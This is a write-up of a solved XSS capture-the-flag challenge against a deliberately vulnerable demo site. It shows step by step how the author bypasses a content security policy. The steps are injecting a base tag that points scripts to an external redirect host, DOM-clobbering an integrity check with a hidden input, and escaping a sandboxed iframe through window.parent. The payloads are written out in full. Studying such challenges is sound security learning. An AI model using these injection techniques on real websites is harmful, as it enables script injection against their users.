


# BugPoC XSS Challenge
[Announcement on HackerOne](https://hackerone.com/bugpoc/updates) *(04.11.20 - 09.11.20)*
```
Rules
1. You must alert(origin) showing https://wacky.buggywebsite.com
2. You must bypass CSP
3. It must be reproducible using the latest version of Chrome
4. You must provide a working proof-of-concept on bugpoc.com
```
## Introduction
This blog post will describe how I solved the XSS challenge by BugPoc. As always when enumerating webpages, we should use an interception proxy to  keep track of all the requests. I will use `Burp Suite` to intercept requests and the `FoxyProxy` plugin to configure the browser's proxy settings. As written in the rules, we need to use the current version of the `Chrome Browser`.

## Enumeration
The target is `https://wacky.buggywebsite.com`, which looks like this.


When first visiting the website and redirecting the traffic through Burp, the following requests get captured.


One of the first things I recognized is, that when clicking at `Make Whacky!` I don't see any additional requests in Burp. Everything will be loaded from cache. Only when changing the content of the text box to a new value, a new request will be send to the server. When testing for xss and entering some special characters into the textbox, everything gets deleted instantly. So I checked the `/script.js` next. 


The first part of the script checks if the chrome browser is used. The second part will remove all special characters after a key was pressed and the last part will create the request, when pressing the button. 

To check for xss I entered something to the textbox, clicked the button and intercepted the request. I changed the value of `param` to a default xss value like `<script>alert()</script>` and url encoded it.



Of course I didn't get an alert afterwards, but let's look at the results. The website is displaying it as default text only.


Let's take a closer look to the response in Burp. We see our code in two places of the response.

  

The second part got encoded and will be displayed in the website, which won't help, but the first part is interesting. I wrote inside the `<title>` tag and it's not html encoded. There is also the `content-security-policy`, which is explained [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). It allowes scripts with a valid `nonce` only, which will be generated randomly by every request. 

I googled for ways to bypass the CSP or the nonce and came up whith the `<base>` tag. (Later I found a very easy way to check the CSP for weak configurations. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)) The `base-uri` sets allowed urls and block everything else, but it's not set inside the CSP. It's possible to set a [base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) inside the HTML code, which will be used for all scripts with relative paths and luckily there is one in the source code.


The script uses the relative path `files/analytics/js/frame-analytics.js`, which prints some information to the console log in Chrome.


I tried to redirect the script to my own domain by setting up an `Mock Endpoint` on [BugPoc](https://bugpoc.com/) and an `Redirection URL`, which points to the enpoint. It didn't work without the redirection because the script will load with the base url and the relative path, which won't work with the endpoint. The redirection url will catch the call to the url and redirect it to our endpoint. Back to the xss... 

## Exploit

First the title tag needs to be closed. After that the base tag can be injected, which will change the path of the script. This results in the following code: 
```
</title><base href="https://qbxfs9wso8pi.redir.bugpoc.ninja/">
```
When intercepting the request with Burp and changing the value of param I got the following result.


The script was successfully redirected, but blocked because of a wrong file integrity hash. I needed to bypass that file integrity... 
```
window.fileIntegrity = window.fileIntegrity || {
    'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
    'algorithm' : 'sha256',
    'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
    'creationtime' : 1602687229
}
// verify we are in an iframe
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
			
        // create a sandboxed iframe
        analyticsFrame = document.createElement('iframe');
        analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
        analyticsFrame.setAttribute('class', 'invisible');
        document.body.appendChild(analyticsFrame);

        // securely add the analytics code into iframe
        script = document.createElement('script');
        script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
        script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
        script.setAttribute('crossorigin', 'anonymous');
        analyticsFrame.contentDocument.body.appendChild(script);
    }
```
After carefully analyzing the code I recognized the difference in `window.fileIntegrity` and `fileIntegrity.value`. It's possible to use it in both ways.

I could set a new FileIntegrity.value by adding an object with the same name. This type of vulnerability is called [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). I changed the script on the `Mock Endpoint` and created a new redirection url.


The hash can be calculated easily, which can be found [here](https://w3c.github.io/webappsec-subresource-integrity/#integrity-metadata-description). I downloaded my script by following my redirection url and used the following command to calculate the hash.
```
cat exploit.js | openssl dgst -sha256 -binary | openssl base64 -A
```
This resulted in the following xss:
```
</title><base href="https://zmcckylbygi1.redir.bugpoc.ninja/"><input type="hidden" id="fileIntegrity" value="9a8YfL2BJMHZ6DfMuqE+tymKOGihIn6qdm3OpwrXjN0=">
```


I successfully injected the hash but I couldn't execute an alert message, which is part of the rules. 
```
// create a sandboxed iframe
analyticsFrame = document.createElement('iframe');
analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
analyticsFrame.setAttribute('class', 'invisible');
document.body.appendChild(analyticsFrame);
```
The script loads inside of an iframe with the sandbox [attribute](https://www.w3schools.com/tags/att_iframe_sandbox.asp). But there are also the attributes allow-scripts and allow-same-origin, which can be abused. I found [this article](https://danieldusek.com/escaping-improperly-sandboxed-iframes.html) about escaping from sandboxed iframes. The `window.parent` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/parent) is a reference to the parent window and can be used to create objects outside of the iframe. 

At this point I made it much more difficult. Somehow I decided to create a new iframe on the website and attach a new script to it instead of just creating the alert. This can easily be done by `window.parent.alert(origin);` instead of `window.alert(origin)`. [0xTyrox](https://twitter.com/0xtyrox) drew my attention on this afterwards. Just changing the sandbox property of the iframe won't work. The browser will still block the content and ignore the change.

After changing the hosted script and recalculating the hash I ran the xss again. 




## Proof of Concept
There was one last part that I needed to bypass. It was part of the rules to provide a working poc on BugPoc where I can't intercept requests by Burp. When making a request to `https://wacky.buggywebsite.com/frame.html?param=abc` directly, I got a different result.


The script includes a check if the current window is named `iframe`.
```
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
        [...]
    }

} else {
    document.body.innerHTML = `
    <h1>Error</h1>
    <h2>This page can only be viewed from an iframe.</h2>
    <video width="400" controls>
        <source src="movie.mp4" type="video/mp4">
    </video>`
}
```	
So why not changing the value of `window.name` before visiting the website? It will stay the same when changing to a different website.
```
window.name = "iframe";
```
And finally a fully working exploit.

### You can run my proof of concept on BugPoC:
> [BugPoc XXS Challenge - XSS on wacky.buggywebsite.com](https://bugpoc.com/poc#bp-7qAf5r2T) 

> Password: `giGgLYbonObo95`

Maybe you also wanna take a look at [0xTyrox's](https://tyrox.blog) Writeup.